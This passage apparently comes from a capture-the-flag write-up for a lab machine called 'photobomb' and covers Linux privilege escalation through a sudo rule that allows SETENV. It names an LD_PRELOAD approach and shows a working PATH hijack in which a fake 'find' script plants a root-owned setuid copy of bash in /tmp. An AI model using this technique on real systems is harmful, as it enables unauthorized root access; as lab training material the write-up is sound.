 
### LD_PRELOAD for privesc

I can use `sudo -l` without any password (Because of the NOPASSWD)

```bash
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

We see that I can SETENV before running the script `/opt/cleanup.sh`, so I can use the LD_PRELOAD trick (see hacktricks)

Source:
https://book.hacktricks.xyz/linux-hardening/privilege-escalation#:~:text=LD_PRELOAD%20%26%20LD_LIBRARY_PATH

#### Path Hijacking
in the previous example it's also possible to do a path hijacking

```bash
wizard@photobomb:~$ cat find
#!/bin/bash
cp /bin/bash /tmp/asd; chmod 4777 /tmp/asd
wizard@photobomb:~$ chmod 777 find
wizard@photobomb:~$ sudo PATH=/home/wizard:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin /opt/cleanup.sh
wizard@photobomb:~$ ls -la /tmp/asd
-rwsrwxrwx 1 root root 1183448 Oct  8 21:37 /tmp/asd
```

